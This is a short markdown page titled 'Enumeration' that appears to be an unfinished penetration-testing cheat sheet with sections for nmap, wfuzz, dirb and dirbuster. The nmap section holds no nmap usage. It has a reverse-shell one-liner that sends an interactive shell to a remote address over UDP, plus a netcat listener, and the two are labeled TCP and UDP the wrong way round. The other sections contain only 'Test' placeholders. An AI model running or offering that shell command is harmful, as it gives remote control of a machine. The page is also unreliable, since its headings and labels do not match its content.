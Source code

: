 # Enumeration

## Summary
* [NMAP](#NMAP)
* [WFUZZ](#WFUZZ)
* [DIRB](#DIRB)
* [DIRBUSTER](#DISRBU)

 

### NMAP

```
TCP:
sh -i >& /dev/udp/10.0.0.1/4242 0>&1

UDP:
nc -u -lvp 4242
```

### WFUZZ
```
Test
Test
Test
Test
Test
Test
Test
Test
```

### DIRB
```
Test
```

### DIRBUSTER
```
Test
```
